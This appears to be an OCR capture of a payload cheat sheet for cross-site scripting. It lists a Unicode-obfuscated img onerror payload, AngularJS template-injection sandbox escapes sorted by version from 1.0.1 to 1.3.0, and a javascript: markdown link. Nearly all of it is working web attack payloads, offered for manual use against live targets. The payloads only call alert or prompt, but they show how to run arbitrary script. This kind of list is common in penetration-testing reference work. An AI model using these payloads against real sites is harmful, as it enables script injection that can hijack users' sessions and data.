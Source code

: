 **Unicode characters**

```html
†‡•＜img src=a onerror=javascript:alert('test')>…‰€
```

**AngularJS Template Injection based XSS**

*For manual verification on a live target, use `angular.version` in your browser console*

**1.0.1 - 1.1.5** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{constructor.constructor('alert(1)')()}}
```

**1.2.0 - 1.2.1** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

**1.2.2 - 1.2.5** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

**1.2.6 - 1.2.18** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

**1.2.19 - 1.2.23** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

**1.2.24 - 1.2.29** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

**1.3.0** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```


[a]: (javascript:prompt(1))